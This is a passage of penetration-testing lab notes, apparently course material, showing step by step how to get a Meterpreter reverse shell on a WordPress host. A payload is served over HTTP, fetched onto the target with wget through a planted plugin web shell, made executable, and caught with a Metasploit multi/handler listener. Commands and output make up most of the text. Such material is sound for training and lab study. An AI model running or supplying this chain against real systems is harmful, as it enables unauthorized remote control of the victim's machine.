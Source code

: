 -   We are generating the payload as an elf file and redirecting the output to a file named **shell.elf** in the kali user home directory.

-   meterpreter reverse shell generated, we start a web server to allow the target to downloadthe shell

```bash
kali@kali:~$ sudo python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 ...
```

- Python http.server module, is instructed to use port 80,and is serving files from the kali user home directory. 

- We chose port 80 again to avoid any potential issues we might run into if there is a** firewall blocking arbitrary outbound ports.**
-    we will instruct the target to download theshell. 
-    We will use **wget from the target to download the shell from our Kali system**. 

-    However, we must **encode any space characters with “%20” since we cannot use spaces in URLs**. 

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph  
p?cmd=wget%20http://10.11.0.4/shell.elf
```

```bash
Serving HTTP on 0.0.0.0 port 80 ...  
10.11.1.250 - -[09/Dec/2019 19:40:16] "GET /shell.elf HTTP/1.1" 200 -
```

-    we need to **make the shell executable** 
-    **start a Metasploit payload handler on Kali**,and **run the elf file on the target** to **acquire a meterpreter shell.**

-    To make the shell executable, we will run **chmod +x on it.**

-    Once again, we need to remember to urlencode sensitive characters **such as space (%20) and “+” (%2b). **

```bash
kali@kali:~$ curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.ph  
p?cmd=chmod%20%2bx%20shell.elf
```

-    At this point, the shell should be executable. 

-    Next, we will start a meterpreter payload listener on the appropriate interface and port.

```bash
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\ 
> set PAYLOAD linux/x86/meterpreter/reverse\_tcp;\ 
> set LHOST 10.11.0.4;\
> set LPORT 443;\ 
> run"  
PAYLOAD => linux/x86/meterpreter/reverse_tcp  
LHOST => 10.11.0.4  
LPORT => 443  
[*] Started reverse TCP handler on 10.11.0.4:443
```
